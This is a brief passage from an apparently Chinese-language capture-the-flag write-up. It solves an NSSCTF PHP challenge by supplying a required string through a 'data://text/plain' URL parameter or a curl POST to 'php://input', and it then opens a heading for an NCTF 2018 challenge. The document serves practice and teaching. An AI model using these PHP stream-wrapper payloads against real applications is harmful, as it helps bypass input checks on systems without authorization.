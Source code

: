 发现可以使用get方法上传a并使得a严格=i want flag

有两种方法

```
/?a=data://text/plain,I want flag
```

data://text/plain指定MIME类型为纯文本

或者直接利用命令行来访问

```
curl -X POST -d "I want flag" http://node7.anna.nssctf.cn:29262/test2222222222222.php/?a=php://input
```

`php://input`是一个只读流，用于读取原始的请求数据。它通常用于接收POST请求的内容，尤其是在处理非文件上传的POST数据时。

得到flag

![1744339157025](image/NSS/1744339157025.png)

# 15.[NCTF 2018]签到题

bp抓包
